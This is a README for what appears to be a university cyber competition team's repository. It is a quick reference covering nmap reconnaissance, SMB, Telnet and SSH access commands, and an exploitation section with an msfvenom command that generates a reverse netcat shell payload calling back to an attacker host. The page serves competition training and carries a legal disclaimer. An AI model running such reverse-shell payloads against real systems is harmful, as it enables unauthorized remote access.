 # A Public Repository for the UAT Cyber Competition Team
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands\
nmap [flag(s)] [target/file]



References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## ACCESS
[An overview of SMB, Telnet, SSH and FTP](https://chatgpt.com/share/3a9c17c6-db6d-48b6-ae75-a3d976bdfd4f)

SMB Commands:
```zsh
smbclient //[ip]/[share] -U [userName] -p [port]
```
Telnet Commands:
```zsh
telnet [ip] [port]
```
SSH Commands:
```zsh
ssh username@IP
```
FTP Commands:

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using ifconfig or ip a

Obtaining a reverse shell payload:\
```zsh
msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
```
